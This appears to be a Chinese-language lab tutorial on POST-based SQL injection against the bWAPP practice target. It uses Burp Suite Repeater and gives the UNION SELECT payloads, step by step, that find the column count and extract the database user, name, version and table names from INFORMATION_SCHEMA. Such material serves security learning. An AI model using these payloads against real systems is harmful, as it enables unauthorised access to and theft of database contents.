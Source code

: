 

#### POST注入实战

- 安装，注册，并登录bWAPP 靶机

- 选择bug类型：Choose your bug: SQL Injection (POST/Select)

- 查看POST请求 

  - 使用 Burp Suite 进行请求的抓取
  - 查看到请求body的内容：movie=4&action=go

- Send to Repeater 

  - 右键，发送到repeater 进行重放攻击 
  - 进入 Repeater ，重新 Send 尝试不同body

- 构造输入，测试SQL注入点 

  - 当使用 movie=1’&action=go  的时候，会报错

- 使用 union 构造语句获取信息，尝试获取union参数个数 

  - body 的内容为：movie=4 union select 1,2 #&action=go 时候，可以看到内容
  - 继续添加显示的字段数量
  - body 的内容为：movie=4 union select 1,2,3,4,5,6,7 #&action=go 时候，成功显示数据
  - 但是看不到 可以展示的字段是哪个
  - body 的内容为：movie=11 union select 1,2,3,4,5,6,7 #&action=go时候，查询一个不存在的数据就可以展示出来数字对应的字段了

- 使用INFORMATION_SCHEMA.tables， 获取数据库详细信息 

  - body 的内容为：movie=11 union select 1,user(),database(),table_name,version(),6,7 from INFORMATION_SCHEMA.tables where table_schema=database() # &action=go

  - 由于 table 只展示一条数据，无法展示出具体有多少个表

  - 服务端实现

    ![1617101098966](HackerMeWeb.assets/1617101098966.png)
